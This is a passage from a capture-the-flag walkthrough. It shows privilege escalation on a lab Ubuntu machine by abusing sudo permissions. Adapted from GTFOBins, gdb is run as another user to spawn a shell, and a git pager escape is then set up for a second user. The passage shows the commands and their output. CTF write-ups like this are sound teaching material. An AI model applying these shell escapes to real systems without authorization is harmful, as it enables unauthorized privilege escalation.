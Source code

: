 Not as `sudo`, but we can run the command `/var/www/gdb` as user `thirtytwo`. We can look for `gdb` command in [GTFOBins](https://gtfobins.github.io/) and find a `sudo` command for the same over there that we can modify a bit and use.

```
sudo /var/www/gdb -nx -ex '!sh' -ex quit
```

But this command didn't work because with `sudo` we try to run the command as `root`. But from `sudo -l` we can see that we are allowed to run this command as user `thirtytwo` and not `root`. So, we need to use the command:

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

And then we get the shell as user `thirytwo`:

```
www-data@ubuntu-xenial:/home$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit                  

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
whoami
thirtytwo
```

Now, we can check the commands that user `thirtywo` can run: 

```
sudo -l
Matching Defaults entries for thirtytwo on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User thirtytwo may run the following commands on ubuntu-xenial:
    (d4rckh) NOPASSWD: /usr/bin/git
```

As we found in the note, we can run the `git` command as user `d4rckh` now. So, we can again go to [GTFOBins](https://gtfobins.github.io/) and look for exploit related to `git`.  The one that works from the sudo exploits mentioned there after modification are:

```
sudo -u d4rckh /usr/bin/git -p help config
!/bin/sh
```
